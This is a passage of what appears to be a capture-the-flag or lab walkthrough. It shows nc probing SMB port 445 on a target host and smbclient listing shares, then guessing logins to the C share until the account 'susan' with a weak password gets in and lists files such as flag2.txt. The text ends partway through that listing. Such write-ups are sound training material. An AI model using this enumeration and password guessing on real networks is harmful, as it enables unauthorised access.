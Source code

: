 However, the hosts at 10.10.10.35 and 10.10.10.45 can access 10.10.10.15:

<pre>
[bob@fred ~]$ nc -vvv -w 3 10.10.10.15 445
wilma.target.tgt [10.10.10.15] 445 (microsoft-ds) open
^C sent 0, rcvd 0
</pre>

Use `smbclient` on 10.10.10.45 to enumerate shares on 10.10.10.15:

<pre>
[bob@fred ~]$ smbclient -L 10.10.10.15 -U bob
Password: 
Domain=[WILMA] OS=[Windows Server 2008 R2 Standard 7600] Server=[Windows Server 2008 R2 Standard 6.1]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C               Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
</pre>

We know `C$` is only accessible to an admin, but `C` looks like a good alternative to try and gain access to. Try to connect to it using `smbclient` again, trying different user accounts:

<pre>
[bob@fred ~]$ smbclient -U falken //10.10.10.15/c
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
</pre>

Failed. Try with _bob_:

<pre>
[bob@fred ~]$ smbclient -U bob //10.10.10.15/c
Password: 
Domain=[WILMA] OS=[Windows Server 2008 R2 Standard 7600] Server=[Windows Server 2008 R2 Standard 6.1]
smb: \&gt; dir
NT_STATUS_ACCESS_DENIED listing \*

		48947 blocks of size 524288. 26614 blocks available
smb: \&gt; 
</pre>

Closer, but still no. Bob lacks file system permissions, but he can access the share.

Try other user account, eventually getting to `susan` with the password `passwor8`:

<pre>
[bob@fred ~]$ smbclient -U susan //10.10.10.15/c
Password: 
Domain=[WILMA] OS=[Windows Server 2008 R2 Standard 7600] Server=[Windows Server 2008 R2 Standard 6.1]
smb: \&gt; dir
  $Recycle.Bin                      DHS        0  Mon Jul 13 22:34:39 2009
  Documents and Settings            DHS        0  Tue Jul 14 01:06:44 2009
  firefox                             D        0  Sun May  5 10:49:19 2013
  flag2.txt                          AR       67  Sun May  5 11:58:08 2013
  inetpub                             D        0  Wed Jun 22 13:07:38 2011
  lads.exe                           AR    60416  Fri May 30 04:21:00 2003
  msizap.exe                          A    94720  Sun Feb 18 00:31:38 2007
  pagefile.sys                      AHS 4294500352  Mon Apr 15 13:20:32 2019
  PerfLogs                            D        0  Mon Jul 13 23:20:08 2009
  Program Files                      DR        0  Tue Oct 17 17:24:23 2017
  Program Files (x86)                DR        0  Sun May  5 06:50:28 2013
  ProgramData                        DH        0  Wed May 12 16:23:30 2010